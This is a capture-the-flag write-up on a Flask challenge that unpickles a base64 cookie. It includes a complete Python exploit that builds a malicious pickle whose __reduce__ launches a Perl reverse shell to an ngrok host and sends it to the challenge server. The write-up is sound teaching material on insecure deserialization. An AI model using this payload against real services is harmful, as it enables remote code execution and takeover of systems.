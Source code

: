 ```python
app.run(threaded=True, host="0.0.0.0")
```

Given the challenge name and all those pickles, one can immediatly assume we're talking about [python's pickle module.](https://docs.python.org/3/library/pickle.html)
Particularly, the line 
```python
if contents: items = pickle.loads(base64.b64decode(contents))
```
seems interesting. If an user makes a request to the page, the application will try to get the cookie `contents` and try to deserialize it using the pickle module. Unpickling user controlled inputs is known to be dangerous hence we can try to craft a payload that, when deserialized, gives us RCE.
```python
#!/usr/bin/python
import random
import os
import pickle
import base64
import requests

# craft evil class
class Pwned:

    def __reduce__(self):
        # expose an ngrok tcp instance and wait for connection
        HOST = "6.tcp.ngrok.io"
        PORT = 14516
        # perl oneliner from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
        return (exec, ("__import__('subprocess').Popen(['perl', '-e', 'use Socket;$i=\"%s\";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'])" % (HOST, PORT),))

# serialize and base64 encode Pwned class 
encoded = pickle.dumps(Pwned())
contents = base64.b64encode(encoded).decode()
print("[*] Using payload %s" % contents)

# trigger remote pickle.loads with our payload
r = requests.get('https://jar.2021.chall.actf.co/', cookies={'contents' : contents}, verify=False)
```
The idea behind this attack is to use a special function `__reduce__` in our crafted `Pwned` class. In this way, when we serialize the class, the `__reduce__` function will return a tuple with a callable object and a list of arguments. When unpickled, the class will execute the callable object using the parameters provided in `__reduce__`. Learn more about [python __reduce__ function.](https://docs.python.org/3/library/pickle.html#object.__reduce__)

The solution we found it quite an overkill; when submitted, the payload triggers a reverse shell on the remote webserver. That said, we can setup a ngrok tunnel on our local machine that forwards the connections to a netcat server and get the shell.